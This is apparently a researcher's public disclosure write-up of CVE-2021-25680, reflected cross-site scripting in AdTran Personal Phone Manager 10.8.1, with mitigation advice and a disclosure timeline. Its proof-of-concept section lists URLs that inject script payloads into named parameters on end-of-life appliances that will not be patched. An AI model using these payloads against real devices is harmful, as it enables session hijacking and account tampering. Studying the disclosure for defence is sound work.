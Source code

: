 # CVE-2021-25680 - Adtran Personal Phone Manager Multiple Reflected XSS

--Summary--

The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research

ADTRAN, Inc
https://adtran.com

--Affects--

- AdTran Personal Phone Manager
- Verified on v10.8.1
- **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

--Details--

The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research. These issues work by passing in a basic XSS payload to vulnerable GET parameters that are reflected in the output without sanitization. This can allow for several issues including but not limited to:

- Hijacking a user's session
- Modifying a user's configuration settings
- Using XSS payloads to capture input (keylogging)


-- Proof of Concept --
The following URL parameters were impacted and can be exploited with the sample payloads provided below:
- https://example.com/userapp/userSettings.html?emailSuccessMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- https://example.com/userapp/phoneSettings.html?successMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- https://example.com/userapp/phoneSettingsAction.html?formAction=&callForwardingFlag=1&callForwardNumber=SOMEDATA"><script>alert`XSS`</script>&apply=Apply Changes
- https://example.com/userapp/directoriesAction.html?formAction=applySpeedDialChanges&callEntryToDelete=&newSpeedDialName(1)=&newSpeedDialNumber(1)=&newSpeedDialName(2)=&newSpeedDialNumber(2)=&newSpeedDialName(3)=&newSpeedDialNumber(3)=&newSpeedDialName(4)=&newSpeedDialNumber(4)=&newSpeedDialName(5)=&newSpeedDialNumber(5)=&newSpeedDialName(6)=&newSpeedDialNumber(6)=&newSpeedDialName(7)=&newSpeedDialNumber(7)=&newSpeedDialName(8)=&newSpeedDialNumber(8)=&newSpeedDialName(9)=&newSpeedDialNumber(9)=&newSpeedDialName(10)=&newSpeedDialNumber(10)=&newSpeedDialName(11)=&newSpeedDialNumber(11)=&newSpeedDialName(12)=&newSpeedDialNumber(12)=SOMEDATA<script>alert`XSS`</script>&newSpeedDialName(13)=&newSpeedDialNumber(13)=&newSpeedDialName(14)=&newSpeedDialNumber(14)=&newSpeedDialName(15)=&newSpeedDialNumber(15)=&newSpeedDialName(16)=&newSpeedDialNumber(16)=&newSpeedDialName(17)=&newSpeedDialNumber(17)=&newSpeedDialName(18)=&newSpeedDialNumber(18)=&newSpeedDialName(19)=&newSpeedDialNumber(19)=&newSpeedDialName(20)=&newSpeedDialNumber(20)=&applySpeedDialChanges=Apply

The vulnerable parameters that were identified impact more pages than just the above. Any page that renders a response using the following parameters is impacted by this issue:
- emailSuccessMessage
- successMessage
- callForwardNumber
- newSpeedDialNumber(#)


--Mitigation--

Sanitize any user controlled input in both form fields and URL paramaters to properly encode data so it is not rendered as arbitrary HTML/JavaScript.

--Timeline--

- 1/21/2021: XSS Vulnerabilities were discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
- 1/22/2021: Placeholder CVE-2021-25680 was assigned by MITRE.
- 1/29/2021: A response from AdTran's Product Security Team was received.
- 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
- 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
- 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
- 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
- 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
- 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.
- 4/17/2021: The researcher publishes the repository for full disclosure and notifies MITRE to update the CVE entry details.

Casey Erdmann - Offensive Security Consultant
